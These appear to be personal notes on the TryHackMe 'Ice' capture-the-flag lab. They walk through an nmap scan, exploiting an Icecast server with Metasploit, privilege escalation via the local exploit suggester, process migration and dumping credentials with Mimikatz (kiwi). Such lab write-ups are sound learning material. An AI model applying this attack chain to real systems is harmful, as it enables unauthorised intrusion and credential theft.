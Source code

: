 - hacking Windows server
- https://tryhackme.com/room/ice

- nmap scan `nmap -sS -sV -p- <IP>`
	- 135: msrpc
	- 139: netbios-ssn
	- 445: microsoft-ds (WORKGROUP)
	- 3389: tcpwrapped
	- 5357: http
		- HTTPAPI 2.0 (SSDP/UPnP)
	- 8000: http
		- Icecast streaming media server
	- 49152, 49153, 49154, 49158, 49159, 49160: msrpc
	- Service info:
		- Host: DARK-PC; cpe:/o\:microsoft:windows 

- gaining access throught Icecast and escalating privileges
	- research on vulnerabilities
		- https://www.cvedetails.com/cve/CVE-2004-1561/ → has Metasploit exploit
	- Metasploit
		- → run `exploit/windows/http/icecast_header`
	- Meterpreter
		- sessionId: session 1
		- who is running Icecast? (current user) → `getuid` → Dark
		- `sysinfo` → get info about build,...
		- `run post/multi/recon/local\_exploit\_suggester`
			- can run several minutes
			- will give us potential exploits
				- exploit/windows/local/bypassuac_eventvwr
				- exploit/windows/local/ikeext_service
				- exploit/windows/local/ms10_092_schelevator
				- exploit/windows/local/ms13_053_schlamperei
				- exploit/windows/local/ms13_081_track_popup_menu
				- exploit/windows/local/ms14_058_track_popup_menu
				- exploit/windows/local/ms15_051_client_copy_image
				- exploit/windows/local/ntusermndragover
				- exploit/windows/local/ppr_flatten_rec:
		- background Meterpeter and start running exploits
		- if the exploit is succesfull you get another session
			- get to that session `sessions <sessionId>`
			- check permissions `getprivs`

- start looting
	- show running processes `ps`
	- find one that is running on the same architecture as lsass service
		- → spoolsv.exe ~ printer
	- switch to another process `migrate -N <process_name>`
		- → now we have full admin permission
	- run Mimikatz `load kiwi`
		- retrieve all creds `creds_all`

- post-exploitation
	- what can you do with mimikatz